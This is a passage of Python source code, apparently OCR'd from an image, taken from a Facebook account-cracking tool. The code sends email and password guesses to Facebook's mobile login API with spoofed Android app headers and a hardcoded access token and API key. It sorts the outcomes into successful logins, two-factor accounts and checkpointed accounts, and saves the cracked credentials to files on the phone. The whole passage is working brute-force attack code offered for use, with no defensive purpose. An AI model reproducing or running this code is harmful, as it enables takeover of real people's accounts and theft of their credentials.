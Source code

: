 "error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": ids,
"password": pas,
"access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": "8b59ed89-4b88-4f69-a1ed-dfea59e76839",
"currently_logged_in_userid": "0",
"locale": "en_US",
"client_country_code": "US",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d",}
                        headers={
                                'User-Agent': ua,
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': '25227',
'X-FB-SIM-HNI': '29752',
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',
'Content-Length': '706'}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [LEGEND-USMII-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/USMII-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[USMII-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;31m [ALONE-USMII-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/USMII-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/USMII-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
def api1(ids,names,passlist):
        global loop
        global oks